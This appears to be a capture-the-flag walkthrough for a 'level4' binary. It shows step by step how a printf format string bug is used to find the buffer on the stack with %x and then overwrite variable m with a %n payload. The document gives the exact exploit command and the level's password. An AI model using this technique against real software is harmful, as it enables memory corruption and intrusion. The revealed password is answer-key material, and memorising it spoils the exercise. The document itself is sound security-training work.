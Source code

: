 
# Walkthrough

> **The Goal:** manipulate `printf()` function to changing the value of the variable `m` at the address 0x8049810<br/>
It'is as the level3 
## 1 Get address of variable `m` 
![Alt Addr m](addr_m4.png)

## 2. Fnd the position of a buffer on the stack using the printf vulnerability
`python -c 'print "aaaa" + " %x" * 13'` <br/>
Buffer content `aaaaaa` is at the 12th position `61616161`.<br/>
![Alt Buffer position](position_m.png)


## 3. Modify `m` value s<br/>
The modifier %n will write the number of bytes specified in the choosen address.<br/>
`python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4`<br/>
It print the password : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
